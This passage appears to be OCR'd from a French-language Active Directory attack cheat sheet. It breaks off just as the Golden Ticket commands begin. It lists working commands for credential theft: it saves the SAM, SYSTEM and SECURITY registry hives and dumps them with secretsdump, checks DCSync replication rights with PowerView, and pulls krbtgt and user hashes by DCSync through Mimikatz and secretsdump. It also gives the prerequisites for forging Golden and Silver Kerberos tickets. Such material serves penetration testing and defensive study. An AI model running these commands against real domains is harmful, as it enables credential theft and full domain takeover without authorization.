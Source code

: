         # Dump depuis les hives SAM/SYSTEM/SECURITY sauvegardées
        secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
        # Pour obtenir les hives:
        # reg save HKLM\SAM C:\sam.save
        # reg save HKLM\SYSTEM C:\system.save
        # reg save HKLM\SECURITY C:\security.save
        ```

### 2. Élévation de Privilèges via DCSync
*   **Objectif :** Obtenir les hashes de n'importe quel compte (y compris `krbtgt`) en imitant un DC.
*   **Prérequis :** Droits de réplication (`Replicating Directory Changes`, `Replicating Directory Changes All`). Souvent détenus par les Admins du Domaine, Contrôleurs de Domaine, ou comptes avec délégation spécifique.
*   **Vérification des droits (PowerView) :**
    ```powershell
    Get-ObjectAcl -SamAccountName "krbtgt" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get') }
    # Ou pour le domaine entier
    Get-ObjectAcl "DC=<DOMAINE>,DC=<LOCAL>" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get') -and $_.IdentityReference -match "<UTILISATEUR_A_VERIFIER>" }
    ```
*   **Exécution :**
    *   **Mimikatz :**
        ```powershell
        # Obtenir le hash de krbtgt
        Invoke-Mimikatz -Command '"lsadump::dcsync /domain:<DOMAINE.LOCAL> /user:krbtgt"'
        # Obtenir le hash d'un utilisateur spécifique
        Invoke-Mimikatz -Command '"lsadump::dcsync /domain:<DOMAINE.LOCAL> /user:<UTILISATEUR_CIBLE>"'
        ```
    *   **secretsdump.py :**
        ```bash
        secretsdump.py -just-dc <DOMAINE>/<USER_AVEC_DROITS_DCSYNC>:<PASSWORD>@<IP_DC>
        secretsdump.py -just-dc-user <UTILISATEUR_CIBLE> <DOMAINE>/<USER_AVEC_DROITS_DCSYNC>:<PASSWORD>@<IP_DC>
        ```

### 3. Création de Golden/Silver Tickets (Persistance et Accès)
*   **Objectif :** Forger des tickets Kerberos pour un accès durable et étendu.
*   **Prérequis :**
    *   **Golden Ticket :** Hash NTLM du compte `krbtgt`, SID du domaine.
    *   **Silver Ticket :** Hash NTLM du compte de service (ordinateur ou utilisateur), SID du domaine, SPN du service cible.
*   **Commandes Clés (Mimikatz) :**
    ```powershell
    # Golden Ticket (accès total au domaine)